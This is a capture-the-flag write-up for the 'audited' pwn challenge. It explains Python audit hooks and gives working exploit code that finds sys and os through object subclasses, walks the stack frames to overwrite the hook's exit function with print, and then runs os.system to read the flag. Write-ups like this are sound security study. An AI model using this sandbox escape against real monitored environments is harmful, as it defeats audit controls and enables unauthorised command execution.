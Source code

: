 # audited - _pwn, 263pts_

For this challenge we had to bypass runtime audit hooks in the Python interpreter, which were a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting event occurs. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

The challenge registered an audit hook which would call `__exit` (their imported alias of `os._exit`) if it was triggered, which meant that we couldn't simply open the flag or spawn a shell, for example.

Initially I thought this might be a 1-day challenge, so I trawled through all of the audit-hook-related entries in the Python bugtracker, and all issues/PRs on GitHub, but I didn't spot any obvious bugs which would help us solve the challenge. So this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function (seemed unlikely as they were pretty diligent in adding them, based on the commit history), or we had to attack the registered audit function itself.

Eventually I decided that the latter option seemed like the most likely, and it became clear that if we could get a reference to the `__main__` module, then we could overwrite the `__exit` function reference with some no-op function, to stop the audit hook from actually exiting the script. 

I was able to achieve this by raising an exception and walking up the stack frames until I found the frame containing the reference to `__exit`. Once I had that I  overwrote it with `print`, and then used `os.system` to cat the flag.
```python
classes = 'a'.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

